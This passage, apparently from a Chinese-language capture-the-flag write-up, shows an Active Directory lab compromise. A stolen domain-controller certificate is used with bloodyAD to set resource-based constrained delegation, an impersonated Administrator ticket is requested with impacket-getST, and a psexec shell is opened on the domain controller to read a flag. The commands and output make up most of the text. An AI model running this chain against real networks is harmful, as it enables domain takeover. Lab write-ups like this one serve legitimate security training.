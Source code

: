 发现报错了，遇到 **KDC_ERR_PADATA_TYPE_NOSUPP** 错误，显示 KDC 不支持 PADATA 类型（预认证数据）, Kerberos 预身份验证失败

需要尝试其他利用证书的方法

这里可以使用bloodyAD利用证书去配置rdbc

[CravateRouge/bloodyAD: BloodyAD is an Active Directory Privilege Escalation Framework](https://github.com/CravateRouge/bloodyAD)

把证书文件转换为 `PEM` 格式

```
certipy cert -pfx xr-dc01.pfx > xr-dc01.pem
```

配置rdbc

```
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 -q bloodyAD -d xiaorang.lab -u 'xrntkk3$' -c ':xr-dc01.pem' --host 172.22.15.13 --secure add rbcd 'xr-d
c01$' 'xrntkk3$'
[!] No security descriptor has been returned, a new one will be created
[+] xrntkk3$ can now impersonate users on xr-dc01$ via S4U2Proxy
```

接下来就可以申请票据了

```
proxychains4 -q impacket-getST 'xiaorang.lab/xrntkk3$:Abc123456' -spn LDAP/xr-dc01.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
```

导入票据

```
export KRB5CCNAME=Administrator@LDAP_xr-dc01.xiaorang.lab@XIAORANG.LAB.ccache
```

psexec连

```
proxychains4 -q impacket-psexec 'xiaorang.lab/administrator@XR-DC01.xiaorang.lab' -target-ip 172.22.15.13 -codec gbk -no-pass -k
```

flag04

```
c:\Users\Administrator\flag> type flag04.txt

 :::===== :::      :::====  :::=====  :::====  :::  ===
 :::      :::      :::  === :::       :::  === :::  ===
 ======   ===      ======== === ===== ===  === ========
 ===      ===      ===  === ===   === ===  ===      ===
 ===      ======== ===  ===  =======   ======       ===


flag04: flag{bcc6c72d-ae14-41bb-9d05-1655c6d7e6b2}
```
